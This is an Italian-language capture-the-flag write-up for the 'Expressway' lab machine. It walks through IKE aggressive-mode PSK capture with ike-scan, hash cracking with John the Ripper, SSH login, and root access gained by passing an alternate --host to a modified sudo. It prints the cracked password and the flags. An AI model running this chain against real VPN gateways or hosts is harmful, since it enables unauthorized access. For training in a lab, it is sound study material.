

# Expressway



## Recon 

```bash
$ nmap -p- --min-rate 1000 10.x.x.x
PORT   STATE SERVICE
22/tcp open  ssh

```

Con la scansione TCP si individua solo la porta 22 del servizio **ssh**.

Quindi, si continua con una scansione **UDP**.

```bash

$ nmap -sUV -T4 -F --version-intensity 0 10.x.x.x
PORT    STATE SERVICE VERSION
500/udp open  isakmp?

```

Si individua la porta **500/udp**.


Sembrerebbe essere la porta di default per il servizio di **Internet Key Management (IKE)**.

> **Internet Key Exchange** (IKE, versioned as IKEv1 and IKEv2) is the protocol used to set up a security association (SA) in the IPsec protocol suite. [https://en.wikipedia.org/wiki/Internet_Key_Exchange](https://en.wikipedia.org/wiki/Internet_Key_Exchange)

Si scansione la macchina target con **ike-scan**.

```bash

$ ike-scan -M 10.x.x.x
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.x.x.x   Main Mode Handshake returned
        HDR=(CKY-R=0e9066321060f9da)
        SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
        VID=09002689dfd6b712 (XAUTH)
        VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)

Ending ike-scan 1.9.6: 1 hosts scanned in 0.072 seconds (13.86 hosts/sec).  1 returned handshake; 0 returned notify

```

La **Auth=PSK** indica che il protocollo utilizza la cosiddetta **Pre-Shared Key** per l'**autenticazione**.

## Get the PSK

Con la **IKE Aggressive Mode** si specifica un **identification value** di un utente che probabilmente non esiste e si forza la restituizione del **pre-shared key (PSK)**.

> **Main Mode** protects the identity of the peers and the hash of the shared key by encrypting them; **Aggressive Mode** does not.

```bash

$ ike-scan -M 10.x.x.x -A --id=0xdeadbeef -P                     
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.x.x.x   Aggressive Mode Handshake returned
        HDR=(CKY-R=1fac2843edeab5d4)
        SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
        KeyExchange(128 bytes)
        Nonce(32 bytes)
        ID(Type=ID_USER_FQDN, Value=ike@expressway.htb)
        VID=09002689dfd6b712 (XAUTH)
        VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)
        Hash(20 bytes)

IKE PSK parameters (g_xr:g_xi:cky_r:cky_i:sai_b:idir_b:ni_b:nr_b:hash_r):
34de5d97bee137607b6db225051398f8f885419d0103fd3c518177c3b585af065a2bfe68f7495968d98e19e49496d7a3230058089490aca8cf4ed148b656bbd81c59372fc45e45550e52a5751acfcb276aae07cfd2a15269b64bca87cf01439452bb1ee3333a2c915cae5bad8a3f4fd4cb31a70ebb519d6dbb6150f4a817fd4a:c056c1e1d5c2e72cda35aa11629e94e344e74e287b64ec0a76a7b6909e70fe5c54f23fc97fade9bd995b3718ed6bb8456fb9b9d8236a2254f28c97d30c7413b632a82ee0b83651880040bdd4a694927c95f67b57abb3107cd57453eb2983a2197921835028c66fd61776728a98d54734efde478f82165d9bd84c04185290788b:1fac2843edeab5d4:7e92e1bbd129716b:00000001000000010000009801010004030000240101000080010005800200028003000180040002800b0001000c000400007080030000240201000080010005800200018003000180040002800b0001000c000400007080030000240301000080010001800200028003000180040002800b0001000c000400007080000000240401000080010001800200018003000180040002800b0001000c000400007080:03000000696b6540657870726573737761792e687462:c7073d29cec3365160b02f83ebdb5766a934ef47:4feeed0da6924fc40627ef5eca4c36a291a7474731e442eaab0c11aec17634ac:d9c4415e088e0c01e0a9b48fec23f30dbbbbe3ce
Ending ike-scan 1.9.6: 1 hosts scanned in 0.047 seconds (21.28 hosts/sec).  1 returned handshake; 0 returned notify

```

Si ottiene il Fully Qualified Domain Name **ike@expressway.htb** e la **PSK** associata per l'autenticazione.

## Crack the PSK

Si utilizza **John The Ripper** per il parsing del valore di hash PSK e per il cracking.

```bash

# Store the PSK hash
$ echo '34de5d97bee137607b6db225051398f8f885419d0103fd3c518177c3b585af065a2bfe68f7495968d98e19e49496d7a3230058089490aca8cf4ed148b656bbd81c59372fc45e45550e52a5751acfcb276aae07cfd2a15269b64bca87cf01439452bb1ee3333a2c915cae5bad8a3f4fd4cb31a70ebb519d6dbb6150f4a817fd4a:c056c1e1d5c2e72cda35aa11629e94e344e74e287b64ec0a76a7b6909e70fe5c54f23fc97fade9bd995b3718ed6bb8456fb9b9d8236a2254f28c97d30c7413b632a82ee0b83651880040bdd4a694927c95f67b57abb3107cd57453eb2983a2197921835028c66fd61776728a98d54734efde478f82165d9bd84c04185290788b:1fac2843edeab5d4:7e92e1bbd129716b:00000001000000010000009801010004030000240101000080010005800200028003000180040002800b0001000c000400007080030000240201000080010005800200018003000180040002800b0001000c000400007080030000240301000080010001800200028003000180040002800b0001000c000400007080000000240401000080010001800200018003000180040002800b0001000c000400007080:03000000696b6540657870726573737761792e687462:c7073d29cec3365160b02f83ebdb5766a934ef47:4feeed0da6924fc40627ef5eca4c36a291a7474731e442eaab0c11aec17634ac:d9c4415e088e0c01e0a9b48fec23f30dbbbbe3ce' > psk.hash

# Parse the PSK hash to John The Ripper format
$ ikescan2john psk.hash           
$ike$*0*34de5d97bee137607b6db225051398f8f885419d0103fd3c518177c3b585af065a2bfe68f7495968d98e19e49496d7a3230058089490aca8cf4ed148b656bbd81c59372fc45e45550e52a5751acfcb276aae07cfd2a15269b64bca87cf01439452bb1ee3333a2c915cae5bad8a3f4fd4cb31a70ebb519d6dbb6150f4a817fd4a*c056c1e1d5c2e72cda35aa11629e94e344e74e287b64ec0a76a7b6909e70fe5c54f23fc97fade9bd995b3718ed6bb8456fb9b9d8236a2254f28c97d30c7413b632a82ee0b83651880040bdd4a694927c95f67b57abb3107cd57453eb2983a2197921835028c66fd61776728a98d54734efde478f82165d9bd84c04185290788b*1fac2843edeab5d4*7e92e1bbd129716b*00000001000000010000009801010004030000240101000080010005800200028003000180040002800b0001000c000400007080030000240201000080010005800200018003000180040002800b0001000c000400007080030000240301000080010001800200028003000180040002800b0001000c000400007080000000240401000080010001800200018003000180040002800b0001000c000400007080*03000000696b6540657870726573737761792e687462*c7073d29cec3365160b02f83ebdb5766a934ef47*4feeed0da6924fc40627ef5eca4c36a291a7474731e442eaab0c11aec17634ac*d9c4415e088e0c01e0a9b48fec23f30dbbbbe3ce

# Store the output
$ ikescan2john psk.hash > psk.john

# Crack the PSK
$ john --wordlist=/usr/share/wordlists/rockyou.txt psk.john 
freakingrockstarontheroad (?) 

```

Si ottengono le credenziali **ike:freakingrockstarontheroad**.

## Shell as ike

Si aggiorna il DNS locale.

```bash

$ echo '10.x.x.x expressway.htb' | sudo tee -a /etc/hosts

```

E si tenta l'accesso a ssh con il profilo **ike**.

```bash

$ ssh ike@expressway.htb

```

Funziona!

Si ottiene la **user.txt**.

```bash

ike@expressway:~$ cat user.txt 
93f9de82d49319045c64e166f9ee7bd6

```

## Privilege Escalation

Si analizza la macchina target per individuare possibili path di attacco.

### Sudo
---

```bash

ike@expressway:~$ sudo -l
Password: 
Sorry, user ike may not run sudo on expressway.

```

Si nota che il comando restituisce un messaggio specifico per **expressway**. Questo fa pensare alla possibilita' che il comando **sudo** sia stato modificato.

```bash

ike@expressway:~$ find / -name sudo -type f -perm /4000 -exec ls -lah '{}' \; 2>/dev/null
-rwsr-xr-x 1 root root 1023K Aug 29 15:18 /usr/local/bin/sudo
-rwsr-xr-x 1 root root 276K Jun 27  2023 /usr/bin/sudo

```

Infatti, sono presenti due file **sudo**.

```bash

ike@expressway:~$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games

```

Il path **/usr/local/bin** precede **/usr/bin/** ed e' per questo che viene eseguito il comando **sudo** custom.

### Proxy Group and the Squid's files
---

```bash

ike@expressway:~$ id
uid=1001(ike) gid=1001(ike) groups=1001(ike),13(proxy)

```

L'utente ike e' parte del gruppo **proxy**. 

Si individuano i file accessibili dai membri del gruppo **proxy**.

```bash

ike@expressway:~$ find / -group proxy -type f -exec ls -lah '{}' \; 2>/dev/null
-rw-r----- 1 proxy proxy 0 May 16 01:24 /var/spool/squid/netdb.state
-rw-r----- 1 proxy proxy 941 Jul 23 01:47 /var/log/squid/cache.log.2.gz
-rw-r----- 1 proxy proxy 20 Jul 22 19:32 /var/log/squid/access.log.2.gz
-rw-r----- 1 proxy proxy 2.2K Jul 23 01:47 /var/log/squid/cache.log.1
-rw-r----- 1 proxy proxy 4.7K Jul 23 01:19 /var/log/squid/access.log.1

```

> **Squid** is a caching and forwarding HTTP web proxy.

Si accede al contenuto del file **/var/log/squid/access.log.1** e **/var/log/squid/cache.log.1**.

```bash

ike@expressway:~$ cat /var/log/squid/access.log.1 /var/log/squid/cache.log.1                                                                                                                                                    
1753229566.990      0 192.168.68.50 NONE_NONE/000 0 - error:transaction-end-before-headers - HIER_NONE/- -                                                                                                                      
1753229580.379      0 192.168.68.50 NONE_NONE/000 0 - error:transaction-end-before-headers - HIER_NONE/- -                                                                                                                      
1753229580.417     15 192.168.68.50 NONE_NONE/400 3896 GET / - HIER_NONE/- text/html                                                                                                                                            
1753229688.847      0 192.168.68.50 NONE_NONE/400 3896 OPTIONS / - HIER_NONE/- text/html                                                                                                                                        
1753229688.847      0 192.168.68.50 NONE_NONE/400 3896 OPTIONS / - HIER_NONE/- text/html                                                                                                                                        
1753229688.847      0 192.168.68.50 NONE_NONE/400 3944 GET /nmaplowercheck1753229281 - HIER_NONE/- text/html                                                                                                                    
1753229688.847      0 192.168.68.50 NONE_NONE/400 3896 POST / - HIER_NONE/- text/html                                                                                                                                           
1753229688.847      0 192.168.68.50 NONE_NONE/400 3896 GET / - HIER_NONE/- text/html                                                                                                                                            
1753229688.847      0 192.168.68.50 NONE_NONE/400 3926 GET /flumemaster.jsp - HIER_NONE/- text/html                                                                                                                             
1753229688.847      0 192.168.68.50 NONE_NONE/400 3916 GET /master.jsp - HIER_NONE/- text/html                                                                                                                                  
1753229688.847      0 192.168.68.50 NONE_NONE/400 3896 PROPFIND / - HIER_NONE/- text/html                                                                                                                                       
1753229688.847      0 192.168.68.50 NONE_NONE/400 3914 GET /.git/HEAD - HIER_NONE/- text/html                                                                                                                                   
1753229688.847      0 192.168.68.50 NONE_NONE/400 3926 GET /tasktracker.jsp - HIER_NONE/- text/html                                                                                                                             
1753229688.847      0 192.168.68.50 NONE_NONE/000 0 - error:transaction-end-before-headers - HIER_NONE/- -                                                                                                                      
1753229688.902      0 192.168.68.50 NONE_NONE/400 3896 PROPFIND / - HIER_NONE/- text/html                                                                                                                                       
1753229688.902      0 192.168.68.50 NONE_NONE/400 3896 OPTIONS / - HIER_NONE/- text/html                                                                                                                                        
1753229688.902      0 192.168.68.50 NONE_NONE/400 3914 GET /rs-status - HIER_NONE/- text/html                                                                                                                                   
1753229688.902      0 192.168.68.50 TCP_DENIED/403 3807 GET http://www.google.com/ - HIER_NONE/- text/html                                                                                                                      
1753229688.902      0 192.168.68.50 NONE_NONE/400 3902 POST /sdk - HIER_NONE/- text/html                                                                                                                                        
1753229688.902      0 192.168.68.50 NONE_NONE/400 3896 GET / - HIER_NONE/- text/html                                                                                                                                            
1753229688.902      0 192.168.68.50 NONE_NONE/000 0 - error:transaction-end-before-headers - HIER_NONE/- -                                                                                                                      
1753229688.902      0 192.168.68.50 TCP_DENIED/403 3807 GET http://offramp.expressway.htb - HIER_NONE/- text/html                                                                                                               
1753229689.010      0 192.168.68.50 NONE_NONE/400 3896 OPTIONS / - HIER_NONE/- text/html                                                                                                                                        
1753229689.010      0 192.168.68.50 NONE_NONE/400 3896 XDGY / - HIER_NONE/- text/html                                                                                                                                           
1753229689.010      0 192.168.68.50 NONE_NONE/400 3916 GET /evox/about - HIER_NONE/- text/html                                                                                                                                  
1753229689.058      0 192.168.68.50 NONE_NONE/400 3906 GET /HNAP1 - HIER_NONE/- text/html                                                                                                                                       
1753229689.058      0 192.168.68.50 NONE_NONE/400 3896 PROPFIND / - HIER_NONE/- text/html                                                                                                                                       
1753229689.058      0 192.168.68.50 TCP_DENIED/403 381 HEAD http://www.google.com/ - HIER_NONE/- text/html
1753229689.058      0 192.168.68.50 NONE_NONE/400 3934 GET /browseDirectory.jsp - HIER_NONE/- text/html
1753229689.058      0 192.168.68.50 NONE_NONE/400 3924 GET /jobtracker.jsp - HIER_NONE/- text/html
1753229689.058      0 192.168.68.50 NONE_NONE/400 3916 GET /status.jsp - HIER_NONE/- text/html
1753229689.114      0 192.168.68.50 NONE_NONE/400 3916 GET /robots.txt - HIER_NONE/- text/html
1753229689.114      0 192.168.68.50 NONE_NONE/400 3922 GET /dfshealth.jsp - HIER_NONE/- text/html
1753229689.165      0 192.168.68.50 NONE_NONE/400 3896 OPTIONS / - HIER_NONE/- text/html
1753229689.165      0 192.168.68.50 NONE_NONE/400 3896 GET / - HIER_NONE/- text/html
1753229689.165      0 192.168.68.50 NONE_NONE/400 3918 GET /favicon.ico - HIER_NONE/- text/html
1753229689.222      0 192.168.68.50 TCP_DENIED/403 3768 CONNECT www.google.com:80 - HIER_NONE/- text/html
1753229689.322      0 192.168.68.50 NONE_NONE/400 3896 OPTIONS / - HIER_NONE/- text/html
1753229689.322      0 192.168.68.50 NONE_NONE/400 381 HEAD / - HIER_NONE/- text/html
1753229689.322      0 192.168.68.50 NONE_NONE/400 3896 GET / - HIER_NONE/- text/html
1753229689.475      0 192.168.68.50 NONE_NONE/400 3896 OPTIONS / - HIER_NONE/- text/html
1753229689.526      0 192.168.68.50 NONE_NONE/400 3896 POST / - HIER_NONE/- text/html
1753229689.629      0 192.168.68.50 NONE_NONE/400 3896 OPTIONS / - HIER_NONE/- text/html
1753229689.680      0 192.168.68.50 NONE_NONE/400 3896 OPTIONS / - HIER_NONE/- text/html
1753229689.783      0 192.168.68.50 NONE_NONE/400 3896 OPTIONS / - HIER_NONE/- text/html
1753229689.933      0 192.168.68.50 NONE_NONE/400 3896 OPTIONS / - HIER_NONE/- text/html
1753229690.086      0 192.168.68.50 NONE_NONE/400 3896 OPTIONS / - HIER_NONE/- text/html
1753229719.140      0 192.168.68.50 NONE_NONE/400 3896 GET / - HIER_NONE/- text/html
1753229719.245      0 192.168.68.50 NONE_NONE/400 3896 GET / - HIER_NONE/- text/html
1753229760.700      0 192.168.68.50 NONE_NONE/400 3918 GET /randomfile1 - HIER_NONE/- text/html
1753229760.722      0 192.168.68.50 NONE_NONE/400 3908 GET /frand2 - HIER_NONE/- text/html
2025/07/23 00:00:13 kid1| storeDirWriteCleanLogs: Starting...
2025/07/23 00:00:13 kid1|   Finished.  Wrote 0 entries.
2025/07/23 00:00:13 kid1|   Took 0.00 seconds (  0.00 entries/sec).
2025/07/23 00:00:13 kid1| logfileRotate: daemon:/var/log/squid/access.log
2025/07/23 00:00:13 kid1| logfileRotate: daemon:/var/log/squid/access.log
2025/07/23 00:00:13 kid1| Pinger socket opened on FD 13
2025/07/23 00:00:13| pinger: Initialising ICMP pinger ...
2025/07/23 00:00:13| pinger: ICMP socket opened.
2025/07/23 00:00:13| pinger: ICMPv6 socket opened
2025/07/23 00:51:20 kid1| Logfile: opening log stdio:/var/spool/squid/netdb.state
2025/07/23 00:51:20 kid1| Logfile: closing log stdio:/var/spool/squid/netdb.state
2025/07/23 00:51:20 kid1| NETDB state saved; 0 entries, 0 msec
2025/07/23 01:46:47 kid1| Preparing for shutdown after 1374 requests
2025/07/23 01:46:47 kid1| Waiting 30 seconds for active connections to finish
2025/07/23 01:46:47 kid1| Closing HTTP(S) port [::]:3128
2025/07/23 01:46:47 kid1| Closing Pinger socket on FD 13
2025/07/23 01:46:58| Pinger exiting.
2025/07/23 01:47:02 kid1| Logfile: opening log stdio:/var/spool/squid/netdb.state
2025/07/23 01:47:02 kid1| Logfile: closing log stdio:/var/spool/squid/netdb.state
2025/07/23 01:47:02 kid1| NETDB state saved; 0 entries, 0 msec
2025/07/23 01:47:18 kid1| Shutdown: NTLM authentication.
2025/07/23 01:47:18 kid1| Shutdown: Negotiate authentication.
2025/07/23 01:47:18 kid1| Shutdown: Digest authentication.
2025/07/23 01:47:18 kid1| Shutdown: Basic authentication.
2025/07/23 01:47:19 kid1| Shutting down...
2025/07/23 01:47:19 kid1| storeDirWriteCleanLogs: Starting...
2025/07/23 01:47:19 kid1|   Finished.  Wrote 0 entries.
2025/07/23 01:47:19 kid1|   Took 0.00 seconds (  0.00 entries/sec).
CPU Usage: 1.501 seconds = 0.898 user + 0.603 sys
Maximum Resident Size: 103200 KB
Page faults with physical i/o: 16
2025/07/23 01:47:19 kid1| Logfile: closing log daemon:/var/log/squid/access.log
2025/07/23 01:47:19 kid1| Logfile Daemon: closing log daemon:/var/log/squid/access.log
2025/07/23 01:47:19 kid1| Open FD UNSTARTED    10 IPC UNIX STREAM Parent
2025/07/23 01:47:19 kid1| Squid Cache (Version 5.7): Exiting normally.

```

Attira particolarmente l'attenzione il seguente record:

```text

1753229688.902      0 192.168.68.50 TCP_DENIED/403 3807 GET http://offramp.expressway.htb - HIER_NONE/- text/html 

```

Tra i log e' presente un'accesso negato per l'host name **offramp.expressway.htb**.

### Sudo on another Host Name
---

Per aggirare la policy di **/usr/local/bin/sudo** (su **express.htb** non si puo' fare altro) si tenta di eseguire il comando con un altro hostname, ovvero **offramp.expressway.htb**.

```bash

ike@expressway:~$ sudo --host='offramp.expressway.htb' id
uid=0(root) gid=0(root) groups=0(root)

```

Funziona!

### Shell as root
---

```bash

ike@expressway:~$ sudo --host='offramp.expressway.htb' bash -p

```

Si accede al file **root.txt**.

```text
root@expressway:/home/ike# cat /root/root.txt 
69bb4f7a6d21815d27a3620e2d49101c

```

---
